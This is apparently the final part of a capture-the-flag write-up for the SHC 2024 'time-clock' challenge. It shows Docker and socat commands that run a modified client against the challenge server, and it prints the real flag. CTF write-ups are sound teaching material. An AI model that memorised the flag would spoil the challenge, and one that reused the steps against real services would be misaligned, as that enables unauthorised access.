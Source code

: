 *   Exploit

    ```
    $ docker container exec -it $(docker ps -q) ./time-clock-client report
    Work report: 
    RRRR

    $ docker container exec -it $(docker ps -q) ./time-clock-client flag
    Flag: 
    shc2024{this_is_a_test_flag}
    ```

Success! 🎉 🎉 🎉 🎉 🎉 🎉:


# Get the real flag

*   Start a live instance on the [SHC
    website](http://ctf.m0unt41n.ch/challenges/time-clock) and add a local tunnel
    on port 5000 to the address provided:

    ```
    $ socat TCP-LISTEN:5000,reuseaddr,fork TCP:ctf.m0unt41n.ch:31337
    ```

*   Grab the modified client binary and the required `libdcerpc.so.1` from within
    the container

    ```
    $ docker cp $(docker ps -ql):/code/time-clock/time-clock-client .
    $ docker cp $(docker ps -ql):/usr/local/lib/libdcerpc.so.1.0.2 ./libdcerpc.so.1
    $ export LD_LIBRARY_PATH=.
    ```

*   Execute:

    ```
    $ ./time-clock-client report
    Work report: 
    RRRR

    $ ./time-clock-client flag
    Flag: 
    shc2024{tick_tock_why_is_it_not_5pm_yet}
    ```

## The flag

```
shc2024{tick_tock_why_is_it_not_5pm_yet}
```